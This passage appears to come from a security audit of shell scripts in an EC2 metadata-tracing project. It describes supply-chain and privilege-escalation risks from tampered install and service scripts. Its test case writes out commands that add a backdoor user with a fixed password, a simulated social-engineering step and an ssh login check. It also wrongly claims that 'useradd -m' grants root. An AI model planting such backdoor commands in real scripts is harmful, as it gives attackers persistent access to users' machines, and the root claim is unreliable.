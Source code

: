       cmake -DPYTHON_CMD=python3 ..
      cd src/python
      make && make install
      ```
    - **Vulnerability Trigger:** A compromised `install-deps.sh` script could:
        1.  Replace the legitimate `git clone` command with a clone from a malicious repository containing backdoored BCC source code.
        2.  Modify the `cmake` or `make` commands or associated build files within the cloned repository to inject malicious code during the build process.
        3.  Add malicious commands directly within the `install-deps.sh` script itself, to be executed before, during, or after the dependency installations.
    - Because the script runs with root privileges, any malicious code injected through these methods will also execute with root privileges, leading to system compromise.
- Security Test Case:
    1.  **Setup Attacker Repository:**
        - Fork the official repository on a GitHub account controlled by the attacker.
        - Clone the forked repository to the attacker's local machine.
    2.  **Modify `install-deps.sh`:**
        - Edit the `install-deps.sh` script in the forked repository.
        - Insert malicious commands. For example, to create a backdoor user, add the following lines before the OS detection `case` statement:
          ```bash
          echo "[INFO] Adding backdoor user..."
          useradd -m -p 'backdoorpassword' backdooruser
          echo "backdooruser:backdoorpassword" | chpasswd
          ```
        - Commit and push the changes to the attacker's forked repository.
    3.  **Social Engineering (Simulated):**
        - Create a scenario to trick a test user into using the malicious script. For example, instruct the user to download the `install-deps.sh` script from the attacker's forked repository.
    4.  **Victim Execution:**
        - On a test EC2 instance, the victim user executes the modified `install-deps.sh` script as root:
          ```bash
          sudo bash install-deps.sh
          ```
    5.  **Verification of Exploit:**
        - After the script execution completes, attempt to log in to the EC2 instance using the backdoor user created in the modified script:
          ```bash
          ssh backdooruser@<EC2_INSTANCE_IP>
          ```
          using the password 'backdoorpassword'.
        - If login is successful, the vulnerability is confirmed. The backdoor user has been created with root privileges (due to useradd -m).
        - Additionally, check for other malicious effects depending on the payload injected in step 2.

- Vulnerability Name: Potential for Privilege Escalation via Service Modification (`activate-tracer-service.sh`)
- Description:
    - A threat actor could modify the `activate-tracer-service.sh` script in a forked repository to alter the systemd service definition it creates.
    - By tricking a user into running this modified script, the attacker can change the command executed by the `imds_tracer_tool.service`.
    - This could lead to arbitrary commands being executed with root privileges when the service is started, achieving privilege escalation.
- Impact:
    - Privilege escalation to root on the EC2 instance.
    - The attacker can gain persistent root access by modifying the service to execute malicious code on system startup.
- Vulnerability Rank: High
- Currently Implemented Mitigations:
    - None. The project does not implement any specific mitigations against running a compromised `activate-tracer-service.sh` script.
- Missing Mitigations: